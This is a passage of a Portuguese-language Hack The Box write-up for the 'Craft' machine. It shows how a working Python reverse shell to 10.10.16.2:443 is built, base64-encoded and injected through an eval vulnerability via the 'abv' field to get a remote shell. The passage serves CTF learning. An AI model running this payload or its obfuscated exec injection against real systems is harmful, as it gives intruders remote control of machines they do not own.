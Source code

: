![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-craft/C_eval1.png)

Sim! A princípio funcionou

## Pegando shell

Vou mostrar dois métodos, um através do Python mesmo (Ippsec) ou através de um reverse shell do pentest monkey (0xdf)

### Shell através do Python

Vamos pegar o shell nessa máquina por ai, é encodando um python reverse shell, e jogando ali no system, um b64decode (Ippsec, ele fez assim)

Aqui está o arquivo que utilizei para gerar o b64 que vai no `test.py`

shell.py
```
from base64 import b64encode

sc = """import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.2",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
"""

print(b64encode(sc.encode()))
```

Geramos o base64

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-craft/C_a1.png)

Colocamos dentro do `test.py`, coloquei lá em baixo no `abv`, a chamada para a variável cmd, que foi setado com o base64

```
cmd = 'exec(__import__("base64").b64decode("aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zCnM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pCnMuY29ubmVjdCgoIjEwLjEwL
jE2LjIiLDQ0MykpCm9zLmR1cDIocy5maWxlbm8oKSwwKQpvcy5kdXAyKHMuZmlsZW5vKCksMSkKb3MuZHVwMihzLmZpbGVubygpLDIpCnA9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pCg=="))'

brew_dict['abv'] = cmd
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-craft/C_a2.png)

Executamos e pegamos o shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-craft/C_a.png)
